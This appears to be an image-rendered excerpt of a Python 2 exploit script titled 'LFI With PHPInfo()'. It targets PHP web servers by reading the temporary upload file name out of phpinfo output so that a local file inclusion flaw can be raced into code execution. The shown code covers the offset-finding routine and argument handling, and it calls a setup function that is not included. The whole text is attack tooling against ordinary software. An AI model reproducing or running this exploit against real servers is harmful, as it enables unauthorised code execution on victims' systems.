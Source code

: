 ```py
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =>")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()
```